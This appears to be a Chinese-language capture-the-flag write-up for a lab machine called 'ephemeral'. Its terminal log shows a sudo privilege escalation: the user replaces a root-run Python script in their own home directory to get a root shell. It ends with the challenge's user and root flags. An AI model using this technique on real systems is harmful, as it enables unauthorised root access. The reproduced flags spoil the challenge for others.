  
  

>可以写就很简单了
>
  

>看一下定时任务
>
  

>确实有定时任务看看是那个文件，这几个文件都看完了但是没见到那个在跑这个东西，算了写一个东西试一下
>
  

  
  

>用私钥登录吧，不然又得进行其他稳定操作

  

```
ralph@ephemeral:~$ sudo -l
Matching Defaults entries for ralph on ephemeral:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ralph may run the following commands on ephemeral:
    (root) NOPASSWD: /usr/bin/python3 /home/ralph/getfile.py
```

>目录下写文件，直接王炸方案
>


```
ralph@ephemeral:~$ cat /home/ralph/getfile.py
cat: /home/ralph/getfile.py: Permission denied
ralph@ephemeral:~$ rm -r getfile.py
rm: remove write-protected regular file 'getfile.py'? 
ralph@ephemeral:~$ pwd
/home/ralph
ralph@ephemeral:~$ nano getfile.py


Use "fg" to return to nano.

[1]+  Stopped                 nano getfile.py
ralph@ephemeral:~$ touch getfile.py
touch: cannot touch 'getfile.py': Permission denied
ralph@ephemeral:~$ ls -al
total 52
drwxr-xr-x 7 ralph ralph 4096 Jan 27 07:39 .
drwxr-xr-x 4 root  root  4096 Apr  8  2022 ..
lrwxrwxrwx 1 root  root     9 Apr  8  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ralph ralph  220 Apr  8  2022 .bash_logout
-rw-r--r-- 1 ralph ralph 3771 Apr  8  2022 .bashrc
drwx------ 4 ralph ralph 4096 Apr  9  2022 .cache
drwx------ 4 ralph ralph 4096 Apr  9  2022 .config
-rw------- 1 root  root   297 Apr 10  2022 getfile.py
-rw-rw-r-- 1 ralph ralph 1024 Jan 27 07:39 .getfile.py.swp
drwxr-xr-x 3 ralph ralph 4096 Apr  9  2022 .local
-rw-r--r-- 1 ralph ralph  807 Apr  8  2022 .profile
drwx------ 2 ralph ralph 4096 Apr 10  2022 .ssh
drwxrwxr-x 2 ralph ralph 4096 Apr 10  2022 tools
-rw------- 1 ralph ralph   33 Apr  9  2022 user.txt
ralph@ephemeral:~$ rm r getfile.py
rm: cannot remove 'r': No such file or directory
rm: remove write-protected regular file 'getfile.py'? 
ralph@ephemeral:~$ ls
getfile.py  tools  user.txt
ralph@ephemeral:~$ ls -al
total 52
drwxr-xr-x 7 ralph ralph 4096 Jan 27 07:39 .
drwxr-xr-x 4 root  root  4096 Apr  8  2022 ..
lrwxrwxrwx 1 root  root     9 Apr  8  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ralph ralph  220 Apr  8  2022 .bash_logout
-rw-r--r-- 1 ralph ralph 3771 Apr  8  2022 .bashrc
drwx------ 4 ralph ralph 4096 Apr  9  2022 .cache
drwx------ 4 ralph ralph 4096 Apr  9  2022 .config
-rw------- 1 root  root   297 Apr 10  2022 getfile.py
-rw-rw-r-- 1 ralph ralph 1024 Jan 27 07:39 .getfile.py.swp
drwxr-xr-x 3 ralph ralph 4096 Apr  9  2022 .local
-rw-r--r-- 1 ralph ralph  807 Apr  8  2022 .profile
drwx------ 2 ralph ralph 4096 Apr 10  2022 .ssh
drwxrwxr-x 2 ralph ralph 4096 Apr 10  2022 tools
-rw------- 1 ralph ralph   33 Apr  9  2022 user.txt
ralph@ephemeral:~$ mv getfile.py getfile.py.bak
ralph@ephemeral:~$ ls -al
total 52
drwxr-xr-x 7 ralph ralph 4096 Jan 27 07:40 .
drwxr-xr-x 4 root  root  4096 Apr  8  2022 ..
lrwxrwxrwx 1 root  root     9 Apr  8  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ralph ralph  220 Apr  8  2022 .bash_logout
-rw-r--r-- 1 ralph ralph 3771 Apr  8  2022 .bashrc
drwx------ 4 ralph ralph 4096 Apr  9  2022 .cache
drwx------ 4 ralph ralph 4096 Apr  9  2022 .config
-rw------- 1 root  root   297 Apr 10  2022 getfile.py.bak
-rw-rw-r-- 1 ralph ralph 1024 Jan 27 07:39 .getfile.py.swp
drwxr-xr-x 3 ralph ralph 4096 Apr  9  2022 .local
-rw-r--r-- 1 ralph ralph  807 Apr  8  2022 .profile
drwx------ 2 ralph ralph 4096 Apr 10  2022 .ssh
drwxrwxr-x 2 ralph ralph 4096 Apr 10  2022 tools
-rw------- 1 ralph ralph   33 Apr  9  2022 user.txt
ralph@ephemeral:~$ touch getfile.py
ralph@ephemeral:~$ nano getfile.py
ralph@ephemeral:~$ sudo -l
Matching Defaults entries for ralph on ephemeral:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ralph may run the following commands on ephemeral:
    (root) NOPASSWD: /usr/bin/python3 /home/ralph/getfile.py
ralph@ephemeral:~$ sudo /usr/bin/python3 /home/ralph/getfile.py
root@ephemeral:/home/ralph# id
uid=0(root) gid=0(root) groups=0(root)
root@ephemeral:/home/ralph# 
```

>好了到这里结束了

>userflag:0041e0826ce1e1d6da9e9371a8bb3bde
>
>rootflag:16c760c8c08bf9dd3363355ab77ef8da
>